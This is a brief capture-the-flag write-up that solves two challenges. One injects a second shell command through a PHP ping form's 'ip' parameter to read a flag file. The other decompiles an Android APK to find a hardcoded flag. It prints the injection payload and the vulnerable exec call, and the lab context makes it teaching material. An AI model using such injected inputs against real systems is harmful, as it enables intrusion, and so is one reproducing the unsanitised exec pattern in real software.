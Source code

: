# Ryan CTF: Advanced

### Input Validation

This is a simple command injection, the php is executing the line `exec("ping -c 4 " . $_GET["ip"], $out);`, with the `GET` parameter `ip` that we control.
This way, similarly to SQL injection, we can end the `ping` command with a semicolon `;` (in linux) and the write the second command afterwards. 
Let's try to give the input `1.1.1.1; cat /Flag.txt`, we get 

```
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data. 
64 bytes from 1.1.1.1: icmp_seq=1 ttl=55 time=13.0 ms 
64 bytes from 1.1.1.1: icmp_seq=2 ttl=55 time=12.3 ms 
64 bytes from 1.1.1.1: icmp_seq=3 ttl=55 time=12.2 ms 
64 bytes from 1.1.1.1: icmp_seq=4 ttl=55 time=12.3 ms 

--- 1.1.1.1 ping statistics --- 
4 packets transmitted, 4 received, 0% packet loss, time 3003ms 
rtt min/avg/max/mdev = 12.253/12.502/13.068/0.338 ms 
Flag: pluripresence 
```


### These are not the droids...

We can decompile the APK with `apktool d` command, then navigate to `smali`, `yanl`, `helloworld`, which seems to be the path to the source code.
We have a few class files in there, let's do a `grep -ri "flag" .` just to make sure.
And yes, we've got the string `./BuildConfig.smali:.field public static final FLAG:Ljava/lang/String; = "FLAG: harmonograph"`